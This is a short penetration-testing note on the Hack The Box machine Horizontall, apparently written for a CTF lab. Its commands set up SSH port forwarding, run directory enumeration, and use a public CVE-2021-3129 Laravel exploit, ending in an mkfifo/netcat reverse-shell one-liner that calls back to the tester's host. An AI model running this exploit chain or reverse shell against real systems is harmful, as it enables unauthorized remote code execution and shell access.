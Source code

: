 #### HTB - Horizontall example
FIRST, if the .ssh directory does not exist for the user, create it:

![[Port 22 - SSH  ~#Generate key upload to victim]]

Kali:
```bash - kali
ssh -i id_rsa -L 8000:localhost:8000 strapi@horizontall.htb
```

now visit 127.0.0.1:8000 in web browser

Now run web enumeration tools against localhost:8000/

```bash - kali
dirb http://$TARGET:8000 /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
```

```bash - kali
git clone https://github.com/nth347/CVE-2021-3129_exploit.git  
```

```bash - kali
cd CVE-2021-3129_exploit  
```

```bash - kali
chmod +x exploit.py
```

```bash - kali
./exploit.py http://localhost:8000 Monolog/RCE1 id
```

```bash - kali
./exploit.py http://localhost:8000 Monolog/RCE1 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc $KALI 443 >/tmp/f"
```

